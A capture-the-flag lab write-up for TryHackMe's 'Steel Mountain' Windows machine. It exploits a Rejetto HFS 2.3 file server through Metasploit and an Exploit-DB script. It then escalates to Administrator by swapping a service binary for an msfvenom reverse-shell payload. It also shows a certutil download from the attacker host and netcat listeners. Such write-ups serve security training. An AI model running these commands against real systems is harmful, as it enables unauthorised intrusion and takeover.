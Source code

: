 ```yaml
---
title: Steel Mountain
desc: 'THM: Hack into a Mr. Robot themed Windows machine. Use metasploit for initial access, utilise powershell for Windows privilege escalation enumeration and learn a new technique to get Administrator access.'
---
```

## Introduction
In this room, we will be enumerating a Windows machine, gain access with Metasploit, and escalate privileges to Administrator.

Note: The target machine does not respond to ping (ICMP).

## Recon/OSINT
Target IP: 10.10.173.90 (`$IP`)

The target machine is running a Windows OS.

There is a simple webpage available on port 80.

## Enumeration
Let's start by enumerating the machine using an Nmap scan.

```console
sudo nmap -sC -SV -oN nmap_initial.output $IP 
```
![Nmap Scan Initial](../../assets/images/thm/steelmountain/01-nmap_initial.png)

There is a *Rejetto Http File Server version 2.3* running on port 8080.

![HttpFileServer 2.3](../../assets/images/thm/steelmountain/02-httpfileserver_8080.png)

Let's exploit this service using Metasploit.

## Exploitation
Start Metasploit console using the command `msfconsole` and search for exploits related to the file server in question.

![Metasploit Exploit Search](../../assets/images/thm/steelmountain/04-metasploit_search.png)

Let's look at the information associated with the exploit.

![Metasploit Exploit Info](../../assets/images/thm/steelmountain/05-metasploit_info.png)

Let's set the LHOST, RHOSTS, and RPORT to their respective values for the attack machine.

![Metasploit Set Options](../../assets/images/thm/steelmountain/06-metasploit_options.png)

With the appropriate options set, we can run the exploit and get our initial foothold on the target machine.

![Target Initial Access](../../assets/images/thm/steelmountain/07-initial_access.png)

The user flag can be found at `C:\Users\bill\Desktop\user.txt`.

![User Flag](../../assets/images/thm/steelmountain/08-user_flag.png)

## Privilege Escalation
Now that we have a foothold on the target machine, we can start looking at ways to privilege escalate. Let's begin by further enumerating the machine.

To enumerate the target machine, we will be using a Powershell script called *PowerUP*. The purpose of this script is to enumerate a machine to find common Windows privilege escalation vectors that rely on misconfigurations.

Download the script and upload it to the target machine using the open Meterpreter session.

```console
wget https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Privesc/PowerUp.ps1
```
![PowerUP Upload](../../assets/images/thm/steelmountain/09-powerup.png)

To execute the script, we will first need to type `load powershell` followed by `powershell_shell` into the open Meterpreter session.

![Metasploit Powershell Module](../../assets/images/thm/steelmountain/10-powershell.png)

We can now run the *PowerUp.ps1* script.

![Run PowerUP.ps1](../../assets/images/thm/steelmountain/11-run_powerup.png)

Note that the *CanRestart* option is set to *True* on the *AdvancedSystemCareService9* service which is vulnerable to an *unquoted service path* vulnerability. The *CanRestart* being set to *True* allows us to restart the service on the system. Furthermore the directory to the application is also write-able. This means we can replace the legitimate application with our malicious one and then restart the service which will run our infected program.

Let's use *msfvenom* to generate a reverse shell as a Windows executable.

```console
msfvenom -p windows/shell_reverse_tcp LHOST=10.13.17.49 LPORT=4443 -e x86/shikata_ga_nai -f exe-service -o ASCService.exe
```
![Msfvenom Binary](../../assets/images/thm/steelmountain/12-msfvenom.png)

We can now upload our binary to replace the legitimate one at `C:\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe`

![Upload exe](../../assets/images/thm/steelmountain/13-upload_exe.png)

Before we can replace the legitimate file, we need to stop the service which is running. We can use the regular *cmd* shell for this by using the `shell` command.

```console
sc stop AdvancedSystemCareService9
```
![Stop Service](../../assets/images/thm/steelmountain/14-service_stop.png)

With the service stopped, we can now replace the legitimate file with our malicious file.

```console
copy ASCService.exe "C:\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe"
```
![Replace Legitimate File](../../assets/images/thm/steelmountain/15-replace_exe.png)

With the legitimate file replaced with our malicious one, we can now restart the *AdvancedSystemCareService9* to get our privilege escalation. Before we do this though, we need to setup a listener.

```console
nc -lvnp 4443
```
```console
sc start AdvancedSystemCareService9
```
![Service Start](../../assets/images/thm/steelmountain/16-service_start.png)

![Privilege Escalation Root Shell](../../assets/images/thm/steelmountain/17-root_shell.png)

The flag for the *Administrator* user can be found at `c:\Users\Administrator\Desktop\root.txt`.

![Root Flag](../../assets/images/thm/steelmountain/18-root_flag.png)

## Access and Escalation Without Metasploit
In the previous sections, we exploited the machine with the aid of Metasploit. Let's look at how we can gain access to the machine without the use of Metasploit.

Remember that our Nmap scan showed that the *Rejetto Http File Server version 2.3* running on port 8080. Looking at [Exploit-DB](https://www.exploit-db.com/), we find several exploits for the specified version of the file server. The one that interest us is the [remote command execution exploit (CVE-2014-6287)](https://www.exploit-db.com/exploits/39161). 

We will also need a *Netcat* static binary for the Windows OS (download from [here](https://github.com/andrew-d/static-binaries/blob/master/binaries/windows/x86/ncat.exe)). Remeber to rename the file to `nc.exe` as this is the name the exploit is looking for.

Before we can run the exploit, we need to setup a web server to serve the *Netcat* binary on port 80 when the exploit executes.

```console
python3 -m http.server 80
```
Next we need to setup a *Netcat* listener to receive our call back.

```console
nc -lvnp 4444
```
Finally we can download the exploit from Exploit-DB. The exploit needs to be modified with our IP address and the *Netcat* port we are listening on.

![Modify Exploit Options](../../assets/images/thm/steelmountain/19-exploit_options.png)

With the options set, we can now run the exploit.

```console
python2 39161.py 10.10.173.90 8080
```
Note that we will need to run the exploit twice to get our shell. The reason is because the first time the exploit is executed, it pulls the *Netcat* binary from our server to the target machine. The second time the exploit is executed, we get a callback.

![Netcat Callback](../../assets/images/thm/steelmountain/20-nc_callback.png)

With our initial access established, we can do further enumeration using [WinPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS). We start by copying the script to our machine.

```console
wget https://github.com/carlospolop/PEASS-ng/releases/download/20230529-e7da582f/winPEASx86.exe
```

We can now download the file on the target machine from our running web server using the *certutil* utility.

```console
certutil.exe -urlcache -f http://10.13.17.49/winPEASx86.exe winpeas.exe
```
![WinPEAS Target Download](../../assets/images/thm/steelmountain/21-winpeas_download.png)

Run *WinPEAS* by simply calling the executable. Execution can take a while as the utility goes through several enumeration checks.

Looking at the results, we see that the *WinPEAS* utility found the same unquoted services as *PowerUP* did earlier. At this point, the method for privilege escalation is identical to before. Essentially the goal is to generate a payload using *msfvenom* and replace the legitimate binary with our malicious version. Once the *AdvancedSystemCareService9* service is restarted, we get our root shell.